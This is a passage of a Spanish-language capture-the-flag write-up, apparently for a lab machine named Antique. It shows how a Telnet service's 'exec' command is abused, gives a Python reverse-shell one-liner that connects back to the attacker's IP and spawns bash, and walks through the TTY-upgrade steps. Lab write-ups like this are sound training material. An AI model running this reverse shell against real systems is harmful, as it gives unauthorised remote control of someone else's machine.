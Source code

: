 ```
Password: P@ssw0rd@123!!123

Please type "?" for HELP
> 
```
Estoy dentro del servicio Telnet, con la opción `?` sabré que comandos puedo usar.
```
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
Y ¡¡cuidaditoo|| que encuentro la opción exec para ejecutar comandos.
```
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```
## Explotación 


Ahora me lanzaré una reverse shell mediante una instrucción en python mientras desde otra consola me pongo en escucha. Desde la típica que hago me daba problemas, así que pruebo esta:
``` 
> exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
![En-objetivo]({{ 'assets/img/writeups/Antique/enelotrolado.png' | relative_url }}){: .center-image }

Realizo el tratamiento de la tty
```
> script /dev/null -c bash
CTRL + Z
```
Saldrá de la terminal objetivo. Ahora desde la tuya:
```
> stty raw -echo; fg
> reset xterm
```
Recuperamos la terminal. Para saber el tamaño de mi consola hacer comando `stty size`.
```
> export TERM=xterm
> export SHELL=bash
> stty rows 38 columns 184
```
Con esto queda ya terminado el tratamiento de la consola. Podremos hacer `Ctrl+L` para borrar pantalla y `Ctrl+C` sin que nos salga de la terminal.